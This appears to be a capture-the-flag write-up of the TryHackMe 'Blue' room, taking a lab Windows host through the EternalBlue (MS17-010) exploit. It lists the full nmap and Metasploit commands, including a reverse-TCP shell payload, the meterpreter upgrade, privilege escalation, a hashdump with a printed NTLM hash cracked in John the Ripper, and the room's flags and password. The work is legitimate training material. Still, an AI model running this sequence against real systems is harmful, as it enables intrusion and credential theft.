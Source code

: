 ```yaml
---
layout: page
title: Blue
permalink: /writeups/tryhackme/Blue/
---
```

"Blue" is an entry-level TryHackMe room, designed to introduce users to basic Windows exploitation techniques. The main objective is to gain root access by exploiting a known vulnerability in the **SMB (Server Message Block)** protocol. Specifically, the target machine is vulnerable to [EternalBlue](https://it.wikipedia.org/wiki/EternalBlue) ([CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)), a critical flaw in Microsoft’s SMBv1 implementation.

EternalBlue was originally developed by the NSA and later leaked by the Shadow Brokers in 2017. It has since been widely used in various attacks, including the WannaCry ransomware outbreak. In this room, you'll scan the target for open ports and services, identify the SMB vulnerability, and use a Metasploit module or custom exploit to gain remote code execution. Once access is achieved, the final goal is to escalate privileges and capture the root flag.

This machine can be downloaded from [this page](https://darkstar7471.com/resources.html).

### Table of contents:
- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)

---

## Recon
To get through this section you'll need to install [nmap](https://nmap.org/) or use nmap inside of [Metasploit](https://www.metasploit.com/) (which you will need later).

1.  How many ports are open with a port number under 1000?
2.  What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

We can answer these questions with just one nmap scan:

`nmap --script vuln [target_IP]`
This will return all open ports (9 in total, 3 under port 1000) and all known vulnerabilities (including the EternalBlue exploit, or ms17-010).
![nmap](\images\blue\ports.png)

## Gain Access
To get through this section you'll need to install the Metasploit framework. Then:

Become root: `sudo su`

Open up Metasploit: `msfconsole`

Set your local IP address as LHOST and LPORT to a random port that is not already in use:

`set LHOST tun0`
`set LPORT 4444`
Search Metasploit's database for the EternalBlue exploit: `search ms17-010`

![ms17-010](\images\blue\ms17-010.png)

Use the exploit: `use exploit/windows/smb/ms17_010_eternalblue`

Show the options for the exploit: `show options`. You'll get "RHOSTS" as the first result.

![options](\\images\blue\options.png)

Now set RHOSTS as the target machine's IP address: `set RHOSTS` [target_IP]

Set the payload: `set payload windows/x64/shell/reverse_tcp`

Run the exploit: `run`

## Escalate
Background the session with Ctrl+z (then press `y` when prompted).

Let's now search the Metasploit database for info on how to convert a shell to a Meterpreter shell:
`search shell_to_meterpreter`

This way we will get the answer: `post/multi/manage/shell_to_meterpreter`.

![shell](\images\blue\shell.png)

Use this post module with use 0 and show its' options with show options.

![session](\images\blue\session.png)

Since we have two sessions going on, we will have to change the SESSION option to 1 with `set SESSION 1`. To know to which session you have to switch, use the command `sessions -l`.

![sessions](\images\blue\sessions.png)

Now run the exploit with `run`.
Once we get the [*] Stopping exploit/multi/handler message, press Ctrl+c to stop that payload and select the session you just created with `sessions -i 2` or whatever number your session is (look for it with `sessions -l`).

![session2](\images\blue\session2.png)

![meterpreter](\images\blue\meterpreter.png)

The getsystem command will now return this:

![system](\images\blue\system.png)

You can also list all the processes with the ps command and you can migrate to one of these.

![ps](\images\blue\ps.png)

Find a process that runs at NT AUTHORITY\SYSTEM and copy its' PID.
Now migrate to it with `migrate [PID]` (e.g., `migrate 2868`).

Cracking
Now use the `hashdump` command.

![hashdump](\images\blue\hashdump.png)

Jon is the non-default user. Copy the NTLM digest.
Then we'll copy the digest to a file with:

`echo Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: > hash.txt`
We'll run John The Ripper on the file with:
`john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

This will return alqfna22 as the password.
![john](\images\blue\john.png)

Find flags!
The first flag is located in the C:\ folder:

> flag{access_the_machine}

The second flag is located in the C:\Windows\System32\config folder:

> flag{sam_database_elevated_access}

The third one is in C:\Users\Jon\Documents:

> flag{admin_documents_can_be_valuable}

That's all, hope I helped.
